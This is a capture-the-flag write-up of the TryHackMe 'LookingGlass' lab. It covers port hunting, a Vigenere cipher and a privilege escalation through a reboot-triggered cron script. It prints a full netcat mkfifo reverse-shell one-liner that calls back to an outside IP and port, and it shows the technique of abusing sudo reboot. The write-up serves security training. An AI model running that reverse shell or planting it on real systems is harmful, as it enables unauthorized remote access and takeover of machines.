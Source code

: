 ```yaml
---
title: LookingGlass
layout: post
author: Bit Criminals Team
date: 2021-06-03 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/lookingglass
---
```


First, we ran the nmap scan and were amazed to see  thousands of ssh ports in the range of 9000-13999.When I opened a random port say 12000 in my box the response LOWER came while for 
13000 the response HIGHER came.And this response was random for everyone.After a few discussions we understood that the port we have to locate must be in between the ports giving HIGHER and 
LOWER response.HIGHER and LOWER were references to the next port we need to connect. So if we were to receive the message higher, we would actually connect to a lower port.
Now, you can always do this with a bash script but none of us are good at bash so we manually located the ssh port by hit and trial with the command

ssh <boxip> -p <PORT> 

and then eliminating the PORTs 100s at a time at first,then I found that 12300 gave lower and 12400 gave higher and thus my port was in between this.So,I
started eliminating 10s of port a time and finally I found my port which was 12363 in mycase.

![](/images/Dr.DONN4/mirror1.png)

So,we found a poem first I thought it to be a substitution cipher but it was not.It was a vigenere cipher.

then, we used this online site to bruteforce the cipher key https://www.boxentriq.com/code-breaking/vigenere-cipher. And, then used the key to get the secret.
And, we get the username and password for ssh login.

Then, we got into the jabberwock user and there we found the user flag but mirrored.In this box we found a .sh file and on sudo -l we found a /sbin/reboot Path.
Then, we got into the /etc/crontab file to see that that he .sh script is actually ran by another user named tweedledum.After, few searching and discussions we understood that 
the bash file in ran whenever the system is reboot.So,basically if we give a reverse shell into the bash file and then,listen it in our local port and then, reboot the jabberwock machine we may found the 
tweedledum user.

we used the rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f  reverse shell and changed the ip and the port and then ran sudo reboot.After a few minutes of wait we got the tweedledum 
machine.

![](/images/Dr.DONN4/mirror2.png)

Into the tweedledum user we found a hash in humptydumpty.txt file.

![](/images/Dr.DONN4/mirror3.png) 
